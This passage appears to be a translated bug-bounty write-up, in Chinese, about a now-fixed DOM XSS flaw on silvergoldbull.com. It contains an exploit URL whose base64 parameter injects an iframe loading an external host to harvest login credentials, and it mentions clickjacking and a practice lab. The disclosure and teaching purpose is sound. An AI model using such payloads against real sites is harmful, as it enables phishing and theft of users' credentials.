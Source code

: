 Img 6.0 用户提交登录表单后，我们得到了他的数据

所有攻击者需要的是共享 URL 并等待凭证，就是这么简单。

由于满足了 SAMEORIGIN 要求，点击劫持也可能被利用:

> [https://silvergoldbull.com/bt.html?secK = pglmcmftzsbbvbmxvywq 9 indpbmrvdy 5 zdg 9 wkck 7 innyyz 0 nly 9 nb 28 uz 2 wvdhpirli 2j 3n 0 ewxlpsjozwlnahq 6 mtawmhb 4 o 3d pzhroewmcu 7 ym 9 yzgvyojaipg = =&g = V8 ylvstkpkcylnwzzbgkdbgdldgybbhki 9 gdhhsz 0 LMC 35 cduvwb 1 N2 bkpddwlmcjnxy 2 fma 1](https://silvergoldbull.com/bt.html?secK=PGlmcmFtZSBvbmxvYWQ9IndpbmRvdy5zdG9wKCk7InNyYz0nLy9nb28uZ2wvdHpiRlI2J3N0eWxlPSJoZWlnaHQ6MTAwMHB4O3dpZHRoOjEwMCU7Ym9yZGVyOjAiPg==&g=v8yLvsTKpkCYLNWZzBGKdBGdldGYbBHKi9GdhhSZ0lmc35CduVWb1N2bkpDdwlmcjNXY2Fma1)

secK 的值为:

概念验证:

![](img/3f2907df48b501b33f24af2d47a46fbe.png)

Iframe 内的 img 7.0[https://silvergoldbull.com](https://silvergoldbull.com)网站，准备点击劫持

修复:

他们删除了易受攻击的页面，但对于所有想在阅读这篇文章时“练习”并利用这个错误的人，我专门为你创建了一个 hack.me:

> [https://hack.me/104291/dom-xss-2.html](https://hack.me/104291/dom-xss-2.html)

感谢阅读。